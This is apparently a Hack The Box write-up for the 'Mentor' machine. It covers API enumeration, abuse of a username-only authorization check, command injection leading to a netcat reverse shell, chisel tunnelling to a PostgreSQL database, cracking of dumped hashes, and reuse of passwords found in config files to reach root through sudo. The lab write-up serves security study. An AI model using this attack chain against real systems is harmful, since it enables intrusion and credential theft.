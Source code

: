 # Mentor

---

## Enumeration

- nmap TCP Scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c73bfc3cf9ceee8b4818d5d1af8ec2bb (ECDSA)
|_  256 4440084c0ecbd4f18e7eeda85c68a4f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

- The server reveals its own domain name by redirecting to it, `mentorquotes.htb`
- Found `api` subdomain, `/docs` and `/redoc` are readable
- Upon signing up through the API, my user had the ID of 4
- JWT secret is not crackable with `rockyou.txt` wordlist
- kira's: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imlsb3Zla2lyYSIsImVtYWlsIjoiaWxvdmVraXJhQGtpcmEucm9ja3MifQ.LK7Ji8WoYXgz7ehnHIRwslf19GRalpYrMySbLDsxhuM
- On the `/docs` page, I found some information about `james` with the email `james@mentorquotes.htb`
- Found `/admin` endpoint by fuzzing
- Signed up as user `james` with his email but got an error `user already exists`
- Managed to make 2 accounts, one with the same username and the other with the same email:

```json
{
  "id": 6,
  "email": "james@mentorquotes.htb",
  "username": "james1"
}


// eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lczFAbWVudG9ycXVvdGVzLmh0YiJ9.tqY0iQHU85zAkvffr--v1MMbO37NSNJs0Fo9ZMqRz48

{
  "id": 7,
  "email": "james1@mentorquotes.htb",
  "username": "james"
}

// eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzMSIsImVtYWlsIjoiamFtZXNAbWVudG9ycXVvdGVzLmh0YiJ9.EQ34hpk3tKFcN_auQ4amZYJ-UIICSwdurccYOgUd9dk
```

- The user with `james` as username gave me admin access! Authorization is being checked with only the username!
- users:

```json
{
    "id": 1,
    "email": "james@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 2,
    "email": "svc@mentorquotes.htb",
    "username": "service_acc"
  }
```

- `/admin` endpoints:

```json
{
  "admin_funcs": {
    "check db connection": "/check",
    "backup the application": "/backup"
  }
}
```

---

## Foothold

- Found a simple command injection in the `admin/backup` endpoint
- Netcat exists on the victim machine
- [nc mkfifo](https://revshells.com) payload got me a revshell,

```sh
nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.16.21] from (UNKNOWN) [10.129.106.163] 44717
sh: can't access tty; job control turned off
/app # whoami
whoami
root
```

- That's user

---

## PrivEsc

- I'm inside a docker container
- Found in `db.py` a postgresql database connection, google says it runs on port 5432

```python
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```

- Used chisel to forward this port to my attacking machine
- Kali:

```bash
chisel server -p 8000 -reverse
2022/12/11 10:01:55 server: Reverse tunnelling enabled
2022/12/11 10:01:55 server: Fingerprint Yn/8MEWnPIC05jbSBdjODctPJIrz8pZyLOSzL2qzYIg=
2022/12/11 10:01:55 server: Listening on http://0.0.0.0:8000
2022/12/11 10:01:58 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/12/11 10:05:01 server: session#2: Client version (1.7.7) differs from server version (0.0.0-src)
2022/12/11 10:05:01 server: session#2: tun: proxy#R:5432=>172.22.0.1:5432: Listening
```

- Victim:

```sh
./chisel client 10.10.16.21:8000 R:5432:172.22.0.1:5432

2022/12/11 15:05:46 client: Connecting to ws://10.10.16.21:8000
2022/12/11 15:05:47 client: Connected (Latency 64.217687ms)
```

- PostreSQL enum:

```
mentorquotes_db=# SELECT datname FROM pg_database;
     datname     
-----------------
 postgres
 mentorquotes_db
 template1
 template0
(4 rows)

mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# SELECT * FROM users;
 id |          email          |  username   |             password             
----+-------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb  | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb    | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | ilovekira@kira.rocks    | ilovekira   | d735dbe5a4bb7d535468fb8d36ebcd32
  5 | admin@mentorquotes.htb  | admin       | d735dbe5a4bb7d535468fb8d36ebcd32
  6 | james@mentorquotes.htb  | james1      | d735dbe5a4bb7d535468fb8d36ebcd32
  7 | james1@mentorquotes.htb | james       | d735dbe5a4bb7d535468fb8d36ebcd32
(6 rows)
```

- `svc` account's password is crackable: `123meunomeeivani`
- Used this password to SSH into the host `svc@mentor` and I'm outside the container now
- Ran `linpeas.sh`, here are some interesting results:

```
svc         1669  0.0  0.0   7368  3452 ?        Ss   11:02   0:00 /bin/bash /usr/local/bin/login.sh
svc         2082  0.0  0.6  33460 25120 ?        S    11:03   0:02  _ /usr/bin/python3 /usr/local/bin/login.py kj23sadkj123as0-d213
------------------------------------------------------------------------------------------------------------
╔══════════╣ Searching mysql credentials and exec
Found lib_mysqludf_sys.so:                                   
If you can login in MySQL you can execute commands doing: SELECT sys_eval('id');
------------------------------------------------------------------------------------------------------------
access_log /var/log/nginx/access.log;
error_log /var/log/nginx/error.log;
------------------------------------------------------------------------------------------------------------
/var/lib/snmp/snmpd.conf
/etc/snmp/snmpd.conf
/etc/snmp/snmp.conf
------------------------------------------------------------------------------------------------------------
You own the script: /usr/local/bin/login.sh
```

- Found a password in `/usr/local/big/login.py`: `kj23sadkj123as0-d213` but this is james password on the API
- Found James' password in `/etc/snmp/snmpd.conf`:

```bash
svc@mentor:/etc/snmp$ cat snmpd.conf | grep -i pass
# createUser username (MD5|SHA|SHA-512|SHA-384|SHA-256|SHA-224) authpassphrase [DES|AES] [privpassphrase]
createUser bootstrap MD5 SuperSecurePassword123__ DES
```

- Rooted!

```bash
james@mentor:~$ sudo -l
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
james@mentor:~$ sudo sh
# whoami
root
# cat /root/root.txt

```

---
